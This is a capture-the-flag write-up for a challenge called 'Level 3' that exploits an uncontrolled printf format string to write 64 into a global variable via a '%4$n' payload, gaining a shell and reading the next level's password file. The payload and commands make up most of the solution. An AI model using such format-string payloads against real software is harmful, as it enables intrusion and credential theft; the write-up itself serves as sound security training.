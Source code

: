 # Level 3

## Initial Context

- One file: `level3`

## Solving the Challenge

Running the file without any argument block on an input.
The program act like `cat`.

```bash
$ echo | ./level3

$ echo a | ./level3
a
$ echo hello | ./level3
hello
```

But giving a `printf`'s specifiers, it starts to break.

```bash
$ echo '%s' | ./level3
Segmentation fault (core dumped)
```

By looking at the code, we can see that the raw content is passed as the format for a `printf` call.

```c
fgets(buffer, 512, stdin);
printf(buffer);
```

Also looking at the code, there is a condition made with an uninitialized `m` variable.

```c
unsigned m; /* 0x0804988c */

void v()
{
    ...
    if (m == 64 /* 0x40 */) {
        ...
```

We can try an [uncontrolled format string attack](https://en.wikipedia.org/wiki/Uncontrolled_format_string).

If given an access to a `printf`'s format, an attacker can dump the stack by **popping some values** of the stack using `%p`, `%x` or `%s`. And can also write to it using `%n`, which set to the next parameter the number of characters written up until now.

We can put the address we want to override which is `0x0804988c` (or `8c 98 04 08` in LE), and pop values until we can find it back:

```bash
$ python -c 'print "\x8c\x98\x04\x08 %p %p %p %p %p"' | ./level3
?? 0x200 0xb7fd1ac0 0xb7ff37d0 0x804988c 0x20702520
#                              ^ 4th place, what we want
```

By [exploiting a GCC extension](https://stackoverflow.com/a/19327442/7292958), we can force `printf` to use the 4th value directly:

```python
# address
"\x8c\x98\x04\x08"

# padding to produce 64 characters
+ "A" * 60

# write using %n, at the forth argument using $4
+ "%4$n"
```

Let's save it in a file and send it to the vulnerable program:

```bash
python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit3
cat /tmp/exploit3 - | ./level3
whoami
level4
cat /home/user/level4/.pass
<flag>
```

## Inspirations

- https://stackoverflow.com/questions/46776664/exploiting-printf-vulnerability-in-c
- https://stackoverflow.com/questions/19327441/gcc-dollar-sign-in-printf-format-string/19327442#19327442
